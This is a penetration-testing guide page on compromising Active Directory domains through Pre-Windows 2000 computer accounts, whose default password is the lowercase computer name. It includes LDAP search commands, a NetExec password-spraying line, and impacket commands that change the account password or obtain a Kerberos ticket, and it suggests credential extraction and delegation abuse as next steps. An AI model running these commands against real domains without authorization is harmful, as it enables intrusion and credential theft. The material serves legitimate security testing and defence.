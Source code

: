 # 🖥️ Pre-Windows 2000 Computers
---

#### 🤓 RTFM

Domain computer accounts that are configured as *Pre-Windows 2000 computers* have a default password which corresponds to the computer name without the trailing `$`.

```powershell
# If the computer domain account is...
company.local/COMPUTER-NAME$

# ...the password will be.
computer-name
```

Therefore, if you know domain computer names, you can blindly attempt this password pattern for each of them until you find one which works.

> [!NOTE]
> It's not because the computer account exists in the domain that the actual related machine exists. In most cases, vulnerable domain computer accounts referred to old decommissioned machines. Still, you can use vulnerable accounts to gain an initial foothold into the domain or to perform [Resource-Based Constrained Delegation](/docs/active-directory/privilege-escalation/resource-based-constrained-delegation.html).

#### 📝 Prerequisites

- Network route to a domain controller.

#### 🛠️ Do it!

If you already have a domain account, you can lookup on domain computers that are configured as *Pre-Windows 2000 computers* through LDAP. It consists in finding domain accounts with their [UserAccountControl](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties) set as `PASSWD_NOTREQD` (32) and `WORKSTATION_TRUST_ACCOUNT` (4096). 

# [LDAPSearch-AD](#tab/ldapsearch)

The Python3 script [ldapsearch-ad](https://github.com/yaap7/ldapsearch-ad) can be used from both Linux and Windows. 

```bash
./ldapsearch-ad.py -l $DomainControllerIP -d $Domain -u $Username -p $Password -t search -s '(userAccountControl=4128)'
```
# [ADSearch](#tab/adsearch)

[ADSearch](https://github.com/tomcarver16/ADSearch) is .NET tool.

```powershell
./ADSearch.exe --search "(userAccountControl=4128)"
```

---

Otherwise, you can attempt on all domain computer accounts after having [retrieved the list of domain computers](/docs/active-directory/recon/domain-computers.html). **Don't forget to add the trailing `$` at the end of computer names.**

```bash
nxc smb $DomainControllerIP -d $Domain -u computers.txt -p passwords.txt --no-bruteforce --continue-on-success
```

If you are using [NetExec](https://github.com/Pennyw0rth/NetExec), authentication attempts with error `WORKSTATION_TRUST_ACCOUNT` mean it is a Pre-Windows 2000 computer. Once you identify a vulnerable domain machine account, you can change its password. You can do it using [impacket-rpcchangepwd](https://github.com/fortra/impacket/pull/1304/commits/a1d0cc99ff1bd4425eddc1b28add1f269ff230a6).

```bash
impacket-rpcchangepwd "$Domain"/"$ComputerName\$":"$ComputerNameInLowerCase"@"$DomainControllerIP" -newpass "$NewPassword"
```

Alternatively, you can authenticate using Kerberos without changing the password with [impacket-getTGT](https://github.com/fortra/impacket/blob/master/examples/getTGT.py).

```bash
impacket-getTGT "$Domain"/"$ComputerName\$":"$ComputerNameInLowerCase"@"$DomainControllerIP"
```

> [!NOTE]
> If the corresponding machine exists and is reachable, note that the associated domain computer account is local administrator.

#### 🏆 What's next?

- If it is your first authenticated access to the domain, let's [enumerate](/docs/active-directory/methodology.html#-enumeration) it.
- If the corresponding machine exists, since you have a local administrator access, you can attempt to [extract credentials](/docs/windows/privilege-escalation/credentials-extraction.html).
- Finally, now you compromised a domain computer account, you can attempt to perform [Resource-Based Constrained Delegation](/docs/active-directory/privilege-escalation/resource-based-constrained-delegation.html).

#### 🔗 Useful links

- An [interesting blog](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts) explaining this technique.